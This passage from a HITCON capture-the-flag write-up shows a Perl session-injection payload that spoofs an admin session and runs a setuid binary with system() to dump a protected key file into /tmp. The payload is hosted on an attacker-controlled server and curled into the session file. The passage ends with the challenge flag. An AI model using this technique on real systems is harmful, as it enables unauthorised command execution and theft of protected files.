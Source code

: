 drwx------ 4 root root 4.0K Aug 16 11:37 root 
drwxr-xr-x 19 root root 680 Aug 17 00:20 run 
drwxr-xr-x 2 root root 12K Aug 13 16:29 sbin 
drwxr-xr-x 2 root root 4.0K Jun 7 10:49 srv 
dr-xr-xr-x 13 root root 0 Aug 13 16:29 sys 
drwxrwxrwt 2 root root 36K Aug 17 00:33 tmp 
drwxr-xr-x 10 root root 4.0K Jun 7 10:49 usr 
drwxr-xr-x 13 root root 4.0K Jul 27 11:18 var 
lrwxrwxrwx 1 root root 30 Jun 7 10:50 vmlinuz -> boot/vmlinuz-3.13.0-29-generic 
```

```key.txt``` doesn't have read permissions for us but the ```read_key``` binary is setuid and we can assume this is how the organizers want us to read the keyfile. In most of these instances where you need to run a binary to read a file they expect the file to be read as an argument.

Leveraging these bits of information we write the following in to a webserver we control

```
$sesshash{'ip'} = 'YOUR.IP.GOES.HERE';
$sesshash{'user'} = 'admin';
system("/read_key /key.txt >>/tmp/test.txt");
```

Then we simply curl that into our session file, reload the page to have our session read and then read /tmp/test.txt and to get our key

##The Key

```HITCON{a755be06b165ed8fc4710d3544fce942}```

## Other write-ups
* none yet

